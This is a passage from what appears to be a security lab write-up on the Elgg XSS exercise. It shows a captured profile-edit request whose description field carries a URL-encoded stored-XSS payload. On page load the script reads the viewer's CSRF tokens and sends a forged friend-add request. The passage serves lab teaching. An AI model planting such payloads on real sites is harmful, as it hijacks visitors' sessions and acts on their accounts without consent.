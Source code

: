 In the previous task we have already found the POST request for modifying profile, which is `POST /action/profile/edit`. We can use the browser's "Edit and Resend" feature to modify the request body and send it again, as shown below:

![](images/3-6-7.png)

Original request body:

```
__elgg_token=NYk3y9Q4OG72wXNF14tn3w&__elgg_ts=1743935314&name=Samy&description=%3Cp%3E%26lt%3Bscript+type%3D%26quot%3Btext%2Fjavascript%26quot%3B%26gt%3B%3Cbr+%2F%3E%0D%0Awindow.onload+%3D+function+%28%29+%7B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+Ajax%3Dnull%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+ts%3D%26quot%3B%26amp%3B__elgg_ts%3D%26quot%3B%2Belgg.security.token.__elgg_ts%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+token%3D%26quot%3B%26amp%3B__elgg_token%3D%26quot%3B%2Belgg.security.token.__elgg_token%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+friend%3D%26quot%3B%26amp%3Bfriend%3D%26quot%3B%2Belgg.page_owner.guid%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+var+sendurl%3D%26quot%3Bhttp%3A%2F%2Fwww.xsslabelgg.com%2Faction%2Ffriends%2Fadd%3F%26quot%3B%2Bfriend%2Bts%2Btoken%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax%3Dnew+XMLHttpRequest%28%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.open%28%26quot%3BGET%26quot%3B%2Csendurl%2Ctrue%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.setRequestHeader%28%26quot%3BHost%26quot%3B%2C%26quot%3Bwww.xsslabelgg.com%26quot%3B%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.setRequestHeader%28%26quot%3BContent-Type%26quot%3B%2C%26quot%3Bapplication%2Fx-www-form-urlencoded%26quot%3B%29%3B%3Cbr+%2F%3E%0D%0A%26nbsp%3B%26nbsp%3B%26nbsp%3B+Ajax.send%28%29%3B%3Cbr+%2F%3E%0D%0A%7D%3Cbr+%2F%3E%0D%0A%26lt%3B%2Fscript%26gt%3B%3C%2Fp%3E%0D%0A&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=47
```
